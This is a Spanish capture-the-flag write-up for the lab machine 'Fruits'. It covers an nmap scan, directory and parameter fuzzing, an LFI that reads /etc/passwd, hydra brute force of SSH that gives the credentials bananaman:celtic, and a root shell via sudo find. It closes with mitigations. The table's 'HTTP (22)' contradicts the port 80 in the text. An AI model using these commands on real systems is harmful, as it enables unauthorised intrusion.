










## Información General

| Campo                       | Detalle                                    |
| --------------------------- | ------------------------------------------ |
| **Plataforma**              | TheHackersLabs                             |
| **Máquina**                 | Fruits                                     |
| **Dificultad**              | Fácil                                      |
| **Sistema Operativo**       | Linux (Debian)                             |
| **Servicios expuestos**     | SSH (22), HTTP (22)                        |
| **Vector de entrada**       | LFI (Local File Inclusion) en `fruits.php` |
| **Escalada de privilegios** | GTFOBins - `find` con permisos NOPASSWD    |

## Resumen del Ataque

La máquina Fruits expone un servidor web Apache con una página de frutas y un endpoint `fruits.php` vulnerable a Local File Inclusion, descubierto mediante fuzzing de parámetros con `ffuf`. A través de esta vulnerabilidad se leyó `/etc/passwd`, revelando el usuario del sistema `bananaman`. Con `hydra` se realizó fuerza bruta sobre SSH usando `rockyou.txt`, obteniendo la contraseña válida. Una vez dentro, `sudo -l` mostró que el usuario podía ejecutar `/usr/bin/find` como root sin contraseña, lo que permitió escalar privilegios directamente mediante GTFOBins.

## Técnicas Usadas

- Escaneo de puertos con Nmap (`-p-`, `-sS`, `--min-rate`)
- Enumeración de directorios web con Gobuster
- Fuzzing de parámetros GET con ffuf
- Local File Inclusion (LFI) para lectura de `/etc/passwd`
- Fuerza bruta de credenciales SSH con Hydra + rockyou.txt
- Escalada de privilegios vía GTFOBins (`sudo find`)

## Desarrollo

### 1. Escaneo de puertos

Escaneo completo de todos los puertos TCP:

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.152
```



Se detectan dos puertos abiertos: SSH (22) y HTTP (80). Se lanza un escaneo de versiones y scripts por defecto sobre ambos:

```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.152 
```



SSH en OpenSSH 9.2p1 (Debian 12) y Apache 2.4.57. Nada evidentemente explotable a nivel de versión, por lo que se pasa a la enumeración web.

### 2. Enumeración web inicial

Acceso a la raíz del servidor:

```
http://192.168.241.152/
```


El formulario apunta a `buscar.php`, un endpoint que no estaba entre los resultados del `gobuster` posterior y que no llegó a explotarse; el vector real resultó ser otro archivo PHP distinto (`fruits.php`) hallado por fuerza bruta de directorios.

### 3. Fuerza bruta de directorios

```
gobuster dir -u http://192.168.241.152/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt
```



Aparece `fruits.php`, con una respuesta de tamaño mínimo (1 byte) cuando se accede sin parámetros, lo que sugiere que espera un parámetro GET para hacer algo con él.

### 4. Fuzzing de parámetros en fruits.php

En lugar de adivinar el nombre del parámetro, se fuzzea con una wordlist de nombres de parámetros habituales, probando lectura de `/etc/passwd`:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "http://192.168.241.152/fruits.php?FUZZ=/etc/passwd" -fs 1
```



El parámetro correcto es `file`, y devuelve una respuesta de tamaño distinto a la basal (`-fs 1` filtraba el tamaño de "sin resultado"), confirmando un LFI.

### 5. Confirmación del LFI y lectura de /etc/passwd

```
http://192.168.241.152/fruits.php?file=/etc/passwd
```



Entre las cuentas del sistema, `bananaman` es la única con shell interactiva (`/bin/bash`) y home propio, lo que la marca como el usuario objetivo para el acceso inicial.

### 6. Fuerza bruta de credenciales SSH

```
hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.152 -t 4
```



Credenciales válidas: `bananaman:celtic`.

### 7. Acceso SSH y flag de usuario

```
ssh bananaman@192.168.241.152
```

```
bananaman@Fruits:~$ cat user.txt
```



### 8. Enumeración de privilegios sudo

```
bananaman@Fruits:~$ sudo -l
```



`bananaman` puede ejecutar `/usr/bin/find` como root sin contraseña, un binario listado en GTFOBins como vector directo de escalada.

### 9. Escalada de privilegios a root

```
bananaman@Fruits:~$ sudo find . -exec /bin/sh \; -quit
```

```
# whoami
```



### 10. Flag de root

```
# cd /root
# cat root.txt
```



## Lecciones Aprendidas

- Un endpoint que devuelve una respuesta mínima (1 byte) sin parámetros no es sinónimo de "sin funcionalidad": puede indicar que espera un parámetro no evidente, y el fuzzing de nombres de parámetros (no solo de rutas) es clave para descubrirlo.
- Un LFI, incluso sin lograr RCE directo, es suficiente para filtrar `/etc/passwd` y obtener nombres de usuario válidos con los que pivotar hacia fuerza bruta de servicios como SSH.
- Revisar `sudo -l` inmediatamente tras obtener acceso es un paso casi automático: en este caso reveló una escalada trivial vía GTFOBins sin necesidad de explotar nada adicional.

## Medidas de Mitigación

- Validar y sanear estrictamente el parámetro `file` en `fruits.php`, usando listas blancas de archivos permitidos en lugar de rutas arbitrarias del sistema.
- Restringir los permisos de lectura del proceso web (`www-data`) para que no pueda acceder a archivos fuera del directorio de la aplicación.
- Eliminar el permiso NOPASSWD sobre `/usr/bin/find` para `bananaman`, o sustituirlo por un script concreto con los argumentos estrictamente necesarios en lugar del binario completo.
- Aplicar políticas de contraseñas robustas y bloqueo tras intentos fallidos para mitigar ataques de fuerza bruta sobre SSH.

